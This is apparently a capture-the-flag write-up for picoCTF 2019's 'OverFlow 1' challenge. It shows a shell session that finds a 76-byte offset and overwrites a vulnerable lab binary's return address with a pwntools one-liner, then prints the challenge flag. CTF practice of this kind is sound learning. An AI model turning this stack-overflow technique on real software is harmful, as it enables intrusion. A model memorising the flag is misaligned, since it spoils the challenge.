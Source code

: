 # AUR

OverFlow 1 - Points: 150 - (Solves: 172)Binary Exploitation - Unsolved
Solve
Hints
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47 on the shell server. Source.
Take control that return address
Make sure your address is in Little Endian.

***

2kofawsome@pico-2019-shell1:~$ cd /problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ ls
flag.txt  vuln  vuln.c
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ cyclic 100 | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x61616174 !
Segmentation fault (core dumped)
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ cyclic -l 0x61616174
76
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ objdump -t vuln | grep flag
080485e6 g     F .text  00000079              flag
2kofawsome@pico-2019-shell1:/problems/overflow-1_3_583b6161611ecae1a23f4a8e628e3a47$ python -c "from pwn import *;print('A'*76 + p32(0x080485e6))" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a57e22c2}
